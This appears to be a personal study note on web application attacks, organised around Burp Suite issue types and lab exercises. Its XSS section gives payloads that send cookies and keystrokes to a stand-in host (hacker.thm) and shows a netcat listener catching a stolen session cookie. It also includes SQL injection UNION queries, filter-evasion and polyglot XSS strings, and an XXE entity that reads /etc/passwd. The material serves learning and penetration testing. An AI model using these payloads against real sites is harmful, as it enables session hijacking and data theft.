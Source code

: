 = Website

== Burp Suite Issue Definitions

https://portswigger.net/kb/issues

== Sensitive Data Exposure
When a website doesn't protect (or remove) clear-text information to the end-user

* login credentials
* hidden links to private parts of the website
* other sensitive data shown in HTML or JavaScript

One of the first thing to do when assessing website security is view page source (CTRL+U) for this information.

== IDOR (Insecure Direct Object References)
Get other information from an endpoint by referencing other objects.

Example: a ticketing system with the ID at the end of the endpoint, and we can access ticket not assigned to us normally by just selecting another ID.

== CSRF (Cross-Site Request Forgery)
Information automatically added to a request to make brute forcing harder.

Can be countered with macros in BurpSuite -> execute some actions before execute a request

== Injection
=== HTML Injection
When unfiltered user input is displayed on the page; an attacker can inject HTML and JavaScript code into a vulnerable website.

It is crucial to apply input sanitization (remove HTML tags) -> Never trust user input

=== SQL Injection
Input contains SQL query executed by a database behind the website.

*Usually, try to add a single apostrophe ' in a field to try SQLi*

[source,bash]
-----
GET /about/0' HTTP/1.1
-----

This may create an issue that indicates an error when execute in a database. We now need to find more info about the tables.

[source,bash]
-----
GET /about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns where table_name="people" HTTP/1.1
-----

This creates a union query and selects our target then four null columns (to avoid the query erroring out). We also changed the ID that we are selecting from 2 to 0.

By setting the ID to an invalid number, we  ensure that we don't retrieve anything with the original (legitimate) query; this means that the first row returned from the database will be our desired response from the injected query.

Finally, to get the needed information:
[source,bash]
-----
GET /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1 HTTP/1.1
-----

=== SMTP header injection
When user input is placed into email headers without adequate sanitization -> allow an attacker to inject additional headers with arbitrary values.

Can be exploited to send copies of emails to third parties, attach viruses, phishing, ...

=== OS command injection
It is possible to use various shell metacharacters to inject arbitrary OS commands. The command output does not appear to be returned in the application's responses. However, it is possible to cause the application to interact with an external domain, to verify that a command was executed.

Shell operators ";", "&" and "&&" will combine two (or more) system commands and execute them both.

== Serialized object in HTTP message
Applications may submit a serialized object in a request parameter

* sensitive data contained within the object can be viewed by the user
* may internet with server-side logic by tampering with the contents of the object and re-serializing it
* cause unauthorized code execution on the server by controlling the server-side function that is invoked when the object is processed

== XSS (Cross-site scripting)
Some validation can be applied on fields as we type. We can just enter a legitimate info and intercept the request with Burp Proxy and modify it before forwarding it to the server.

=== Examples
PoC
[source,javascript]
----
<script>alert('XSS');</script>

<!-- close HTML tag before adding script -->
"><script>alert('XSS');</script>
</textarea><script>alert('XSS');</script>
----

Session stealing with document.cookie
[source,javascript]
----
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
----

Key Logger
[source,javascript]
----
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
----

Business Logic
[source,javascript]
----
<script>user.changeEmail('attacker@hacker.thm');</script>
----

If the data is reflected using DOM (abc is the input value)
[source,javascript]
----
<script>document.getElementsByClassName('name')[0].innerHTML='abc';

<!-- Escape existing JS command with payload ';alert('THM');// to end up with... -->

<script>document.getElementsByClassName('name')[0].innerHTML='';alert('THM');//;
----
The quote closes the field specifying the name, then ; signifies the end of the current command, and the // at the end makes anything after it a comment than executable code.

Filter evasion (if script is removed for example)
[source,javascript]
----
<!-- original payload -->
<sscriptcript>alert('THM');</sscriptcript>

<!-- resulting payload -->
<script>alert('THM');</script>
----

Use onload for img tag
[source,javascript]
----
/images/cat.jpg" onload="alert('THM');

<!-- end result -->
<img src="/images/cat.jpg" onload="alert('THM');">
----

==== XSS Polyglot
String of text which can escape attributes, tags and bypass filters all in one.

[source,javascript]
----
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
----

=== DOM based
The application may be vulnerable to DOM-based cross-site scripting. Data is read from location.search and passed to element.innerHTML.

DOM-based vulnerabilities arise when a client-side script reads data from a controllable part of the DOM (for example, the URL) and processes this data in an unsafe way.

=== Blind XSS
We need some kind of URL to redirect the information to.

We can create a listener for that
[source,bash]
----
nc -nlvp 9001
----

If the information we add (create a support ticket for instance) is displayed in a textarea, we can add the following

[source,javascript]
----
</textarea><script>fetch('http://{URL_OR_IP}:9001?cookie=' + btoa(document.cookie) );</script>

----

When someone open the ticket, we get info like this
[source,bash]
----
root@ip-10-10-171-45:~# nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.245.217 41942 received!
GET /?cookie=c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1
Host: 10.10.171.45:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: http://172.17.0.1
Referer: http://172.17.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

----


== XML external entity injection
The application is vulnerable to XML external entity injection. The tag <!DOCTYPE foo [<!ENTITY xxe0wi5o SYSTEM "file:///etc/passwd"> ]> was injected into the XML sent to the server.

This tag defines an external entity, xxe0wi5o, which references a file on the XML parser's filesystem. This entity was then used within a data field in the XML document. The server's response contains the contents of the specified file, indicating that the parser processed the injected external entity.

== External service interaction (HTTP)
It is possible to induce the application to perform server-side HTTP and HTTPS requests to arbitrary domains.

The payload http://tkhuhul11ut7e42w7a9rowccd3jw7zvsxgs3jr8.burpcollaborator.net/ was submitted in the Referer HTTP header.

The application performed an HTTP request to the specified domain.

== Web cache poisoning
The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.

== Server-side template injection
Payload is interpreted by a server-side template engine.